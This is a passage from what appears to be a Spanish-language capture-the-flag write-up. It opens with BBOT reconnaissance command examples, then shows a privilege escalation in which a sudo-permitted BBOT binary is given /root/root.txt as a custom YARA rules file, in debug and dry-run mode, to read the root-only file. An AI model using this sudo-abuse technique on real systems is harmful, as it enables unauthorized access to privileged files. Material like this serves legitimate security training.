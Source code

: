 ```bash

    Subdomains + port scan + web screenshots:
        bbot -t evilcorp.com -p subdomain-enum -m portscan gowitness -n my_scan -o .

    Subdomains + basic web scan:
        bbot -t evilcorp.com -p subdomain-enum web-basic

    Web spider:
        bbot -t www.evilcorp.com -p spider -c web.spider_distance=2 web.spider_depth=2

    Everything everywhere all at once:
        bbot -t evilcorp.com -p kitchen-sink

    List modules:
        bbot -l

    List presets:
        bbot -lp

    List flags:
        bbot -lf
```

### **Reading Privileged Files via BBOT Exploitation through Sudo Privileges**

Tras investigar a fondo la documentación de la herramienta BBOT, encontramos el parámetro `-cy/--custom-yara-rules`, que permite cargar un archivo de reglas YARA personalizadas.

En principio, BBOT espera que se le pase un archivo de reglas YARA, pero decidimos aprovechar esta funcionalidad para indicar que lea otro archivo del sistema, específicamente, acceder al modo debug para observar el comportamiento de la herramienta y poder leer archivos del sistema a nuestro antojo.

En este caso, le indicamos a BBOT que el archivo de reglas YARA es el archivo `/root/root.txt`, activamos el modo debug y, utilizando el parámetro `--dry-run`, abortamos la ejecución después del escaneo. Esto nos permitió acceder a la flag de `root.txt`, ya que, como ejecutamos el binario con privilegios de sudo, obtuvimos acceso al contenido de este archivo restringido.

{% embed url="https://www.blacklanternsecurity.com/bbot/Stable/modules/custom_yara_rules/" %}

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot --custom-yara-rules /root/root.txt -d --dry-run
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

...[snip]...

[DBUG] internal.excavate: Including Submodule CSPExtractor
[DBUG] internal.excavate: Including Submodule EmailExtractor
[DBUG] internal.excavate: Including Submodule ErrorExtractor
[DBUG] internal.excavate: Including Submodule FunctionalityExtractor
[DBUG] internal.excavate: Including Submodule HostnameExtractor
[DBUG] internal.excavate: Including Submodule JWTExtractor
[DBUG] internal.excavate: Including Submodule NonHttpSchemeExtractor
[DBUG] internal.excavate: Including Submodule ParameterExtractor
[DBUG] internal.excavate: Parameter Extraction disabled because no modules consume WEB_PARAMETER events
```